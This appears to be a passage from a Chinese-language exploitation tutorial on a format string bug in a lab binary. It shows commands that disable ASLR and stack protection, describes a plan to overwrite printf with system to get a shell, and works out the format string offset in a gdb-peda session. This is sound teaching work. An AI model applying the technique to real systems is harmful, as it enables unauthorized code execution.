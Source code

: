 ```text
# echo 0 > /proc/sys/kernel/randomize_va_space
$ gcc -m32 -fno-stack-protector -no-pie fmt.c
```

很明显，程序存在格式化字符串漏洞，我们的思路是将 `printf()` 函数的地址改成 `system()` 函数的地址，这样当我们再次输入 `/bin/sh` 时，就可以获得 shell 了。

第一步先计算偏移，虽然 pwntools 中可以很方便地构造出 exp，但这里，我们还是先演示手工方法怎么做，最后再用 pwntools 的方法。在 gdb 中，先在 `main` 处下断点，运行程序，这时 libc 已经被加载进来了。我们输入 "AAAA" 试一下：

```text
gdb-peda$ b main
...
gdb-peda$ r
...
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd1f0 ("AAAA\n")
EBX: 0x804a000 --> 0x8049f10 --> 0x1
ECX: 0xffffd1f0 ("AAAA\n")
EDX: 0x400
ESI: 0xf7f97000 --> 0x1bbd90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd1e0 --> 0xffffd1f0 ("AAAA\n")
EIP: 0x8048512 (<main+92>:      call   0x8048370 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048508 <main+82>: sub    esp,0xc
   0x804850b <main+85>: lea    eax,[ebp-0x408]
   0x8048511 <main+91>: push   eax
=> 0x8048512 <main+92>: call   0x8048370 <printf@plt>
   0x8048517 <main+97>: add    esp,0x10
   0x804851a <main+100>:        mov    eax,DWORD PTR [ebx-0x4]
   0x8048520 <main+106>:        mov    eax,DWORD PTR [eax]
   0x8048522 <main+108>:        sub    esp,0xc
Guessed arguments:
arg[0]: 0xffffd1f0 ("AAAA\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd1e0 --> 0xffffd1f0 ("AAAA\n")
0004| 0xffffd1e4 --> 0xffffd1f0 ("AAAA\n")
0008| 0xffffd1e8 --> 0x400
0012| 0xffffd1ec --> 0x80484d0 (<main+26>:      add    ebx,0x1b30)
0016| 0xffffd1f0 ("AAAA\n")
0020| 0xffffd1f4 --> 0xa ('\n')
0024| 0xffffd1f8 --> 0x0
0028| 0xffffd1fc --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048512 in main ()
```

我们看到输入 `printf()` 的变量 `arg[0]: 0xffffd1f0 ("AAAA\n")` 在栈的第 5 行，除去第一个格式化字符串，即偏移量为 4。

